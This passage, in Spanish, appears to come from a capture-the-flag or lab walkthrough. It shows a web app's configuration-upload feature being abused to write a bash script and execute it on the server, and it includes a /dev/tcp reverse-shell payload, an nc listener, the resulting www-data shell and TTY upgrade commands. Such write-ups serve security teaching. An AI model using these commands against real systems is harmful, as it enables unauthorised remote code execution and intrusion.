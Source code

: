 Si probamos a poner como nombre en la seccion `Configuration Identifier` por ejemplo `test1.sh`

Y en su contenido le metemos:

```shell
#!/bin/bash

echo 'Probando test1.sh'
```

Le daremos al boton de `Apply Configuration` y veremos que se nos creo un archivo con ese contenido, por que si nos vamos al servidor de `python3` veremos que el archivo esta ahi subido y con el contenido que le metimos, ahora si vamos a ejecutar esa "configuracion" en la opcion de abajo llamada `Execute Remote Configuration` ponemos el nombre del archivo `test1.sh` y le damos al boton `Fetch Configuration`, por lo que vemos que nos ejecuto correctamente e interpreta codigo bash, por lo que haremos lo siguiente.

## Reverse Shell

Crearemos un archivo de la misma forma llamado `shell.sh` y con el siguiente contenido:

```shell
#!/bin/bash

sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Info:

```
Configuración 'shell.sh' aplicada con éxito.
```

Le damos al boton de `Apply Configuration` y ahora veremos que se creo correctamente, por lo que seguidamente antes de ejecutarlo en la opcion de abajo estaremos a la escucha.

```shell
nc -lvnp <PORT>
```

Y nos vamos a la pagina web, en la opcion de `Execute Remote Configuration` ponemos el nombre del archivo en mi caso `shell.sh` y le damos al boton `Fetch Configuration`, ahora si nos vamos a donde teniamos la escucha veremos que se nos creo una shell con el usuario `www-data`.

Info:

```
connect to [192.168.5.145] from (UNKNOWN) [172.20.0.2] 54068
sh: 0: can't access tty; job control turned off
$
```

Ahora sanitizaremos la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
